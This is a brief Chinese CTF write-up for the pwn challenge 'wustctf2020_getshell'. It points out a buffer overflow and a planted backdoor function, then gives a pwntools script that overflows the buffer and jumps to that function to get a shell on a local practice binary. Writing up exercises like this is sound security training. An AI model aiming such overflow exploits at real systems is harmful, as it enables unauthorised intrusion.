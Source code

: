 ```yaml
---
title: 'wustctf2020_getshell'
date: 2023-12-31 13:00:00 +0800
categories: [ctf,pwn]
tags: [ret2text]
---
```

![image-20231231142431436](../assets/img/old_imgs/image-20231231142431436.png)

<img src="../assets/img/old_imgs/image-20231231142439989.png" alt="image-20231231142439989" style="zoom: 150%;" />

1. 在`vulnerable`函数中存在溢出漏洞
2. `shell`函数中已经预留了后门

溢出->跳转到后门函数

```python
from pwn import *
context.log_level = 'debug'
elf=ELF('wustctf2020_getshell')
io = process('wustctf2020_getshell')
payload = b'A'*(0x18+0x4)+p32(elf.sym['shell'])
io.sendline(payload)
io.interactive()
```
